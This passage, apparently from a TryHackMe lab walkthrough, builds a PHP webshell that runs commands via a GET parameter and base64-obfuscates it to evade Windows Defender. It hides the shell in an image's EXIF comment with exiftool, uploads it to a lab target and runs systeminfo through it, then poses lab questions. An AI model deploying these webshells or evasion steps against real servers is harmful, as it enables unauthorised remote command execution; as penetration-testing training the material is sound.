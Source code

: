 Now that we've covered the basic terminology, let's get back to hacking this PC!

We have an upload point which we can use to upload PHP scripts. We now need to figure out how to make a PHP script that will bypass the antivirus software. Windows Defender is free and comes pre-installed with Windows Server, so let's assume that this is what is in use for the time being.  

The solution is this:  
We build a payload that does what we need it to do (preferably in a slightly less than common way), then we obfuscate it either manually or by using one of the many tools available online.

First up, let's build that payload:  
`<?php       $cmd = $_GET["wreath"];       if(isset($cmd)){           echo "<pre>" . shell_exec($cmd) . "</pre>";       }       die();   ?>`  

Here we check to see if a GET parameter called "wreath" has been set. If so, we execute it using `shell_exec()`, wrapped inside HTML `<pre>` tags to give us a clean output. We then use `die()` to prevent the rest of the image from showing up as garbled text on the screen.  

This is slightly longer than the classic PHP one-liner webshell (`<?php system($_GET["cmd"]);?>`) for two reasons:

1. If we're obfuscating it then it will become a one-liner anyway
2. Anything _different_ is good when it comes to AV evasion

We now need to obfuscate this payload.

There are a variety of measures we could take here, including but not limited to:

- Switching parts of the exploit around so that they're in an unusual order
- Encoding all of the strings so that they're not recognisable
- Splitting up distinctive parts of the code (e.g. `shell_exec($_GET[...])`)

Answer the questions below

Manual obfuscation is very much a thing, but for the sake of simplicity, let's just use one of the available online tools. The tool linked [here](https://www.gaijin.at/en/tools/php-obfuscator) is recommended. When it comes to web obfuscation, these tools are generally used to make the code difficult for humans to read; however, by doing things like obfuscating variable/function names and encoding strings, they also prove effective against antivirus software.  

Stick the payload into the tool, then activate all the obfuscation options:  
![Obfuscator with the payload input and all options set](https://assets.tryhackme.com/additional/wreath-network/bb2ef4375625.png)  

Click the "Obfuscate Source Code" button, and we're left with this mess of PHP:  
`<?php $p0=$_GET[base64_decode('d3JlYXRo')];if(isset($p0)){echo base64_decode('PHByZT4=').shell_exec($p0).base64_decode('PC9wcmU+');}die();?>`  

If you look closely you'll see that this is still very much the same payload as before; however, enough has changed that it _should_ fool Defender.

As this is getting passed into a bash command, we will need to escape the dollar signs to prevent them from being interpreted as bash variables. This means our final payload is as follows:  
`<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>`

  

With an obfuscated payload, we can now finalise our exploit.

Once again, make a copy of an innocent image (ensuring you give it a name in the format of `shell-USERNAME.jpeg.php`), then use `exiftool` to embed the payload into the image:  
`exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-USERNAME.jpeg.php   `

![Screenshot showing the insertion of the obfuscated webshell into the image with exiftool](https://assets.tryhackme.com/additional/wreath-network/98a8bd99378c.png)

  

Upload your shell and attempt to access it!

If this worked then you should get an output similar to the following:  
![Screenshot showing an error message received when loading the webshell without a parameter](https://assets.tryhackme.com/additional/wreath-network/6b09145ae074.png)  

Awesome! We have a shell.

We can now execute commands using the `wreath` GET parameter, e.g:  
`http://10.200.72.100/resources/uploads/shell-USERNAME.jpeg.php?wreath=systeminfo`  
![Demonstration of executing the systeminfo command through the webshell](https://assets.tryhackme.com/additional/wreath-network/2920fdb4cd18.png)  

  

---

What is the Host Name of the target?  

What is our current username (include the domain in this)?
